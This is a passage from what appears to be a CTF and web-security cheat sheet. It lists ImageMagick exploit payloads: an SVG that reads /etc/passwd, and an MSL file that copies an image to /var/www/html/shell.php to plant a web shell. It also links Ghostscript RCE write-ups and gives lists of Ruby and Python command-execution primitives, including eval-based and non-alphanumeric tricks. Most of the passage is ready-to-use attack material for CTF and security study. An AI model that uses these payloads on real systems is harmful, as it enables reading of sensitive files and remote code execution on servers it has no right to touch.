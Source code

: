         <svg width="120px" height="120px">
          <image width="120" height="120" href="text:/etc/passwd" />
        </svg>
        ```
        - copy file (MSL):
        ```xml
        <image>    <!-- ImageMagick's legend is "image processing" so the tag is named "image". -->
          <read filename="image.png" />    <!-- To make the legend more compelling "image.png" is checked to be a valid image file. -->
          <write filename="/var/www/html/shell.php" />    <!-- This line gives access to a hacker accomplishing the mission of the MSL format and ImageMagick in general -->
        </image>
        ```
    - [TokyoWesterns CTF 2018 - Slack emoji converter](https://ctftime.org/writeup/10912)
        - ghostscript RCE
    - [TokyoWesterns CTF 2019 - Slack emoji converter Kai](https://balsn.tw/ctf_writeup/20190831-tokyowesternsctf/#slack-emoji-converter-kai-(unsolved))
        - ghostscript RCE


## Ruby Command Executing

- `open("| ls")`
- `IO.popen("ls").read`
- `Kernel.exec("ls")`
- `Kernel.method("open").call("|ls").read()`
- ``` `ls` ```
- `system("ls")`
- `eval("ruby code")`
    - Non-Alphanumeric example: [HITCON CTF 2015 - Hard to say](https://github.com/w181496/CTF/tree/master/hitcon2015/hard-to-say)
        - `$$/$$` => 1
        - `'' << 97 << 98 << 99` => "abc"
        - `$:`即`$LOAD_PATH`
- `exec("ls")`
- `%x{ls}` / `%x'ls'` / `%x[ls]` / `%x(ls)` / `%x;ls;`
- `"Process".constantize.spawn("id")`
- `Process.spawn("id")`
- `PTY.spawn("id")`
- Net::FTP
    - CVE-2017-17405
    - use `Kernel#open`

## Python Command Executing
- `os.system("ls")`
- `os.popen("ls").read()`
- `os.execl("/bin/ls","")`
- `os.execlp("ls","")`
- `os.execv("/bin/ls",[''])`
- `os.execvp("/bin/ls",[""])`
- `subprocess.call("ls")`
    - `subprocess.call("ls|cat",shell=False)` => Fail
    - `subprocess.call("ls|cat",shell=True)` => Correct
- `eval("__import__('os').system('ls')")`
- `exec("__import__('os').system('ls')")`
- `commands.getoutput('ls')`
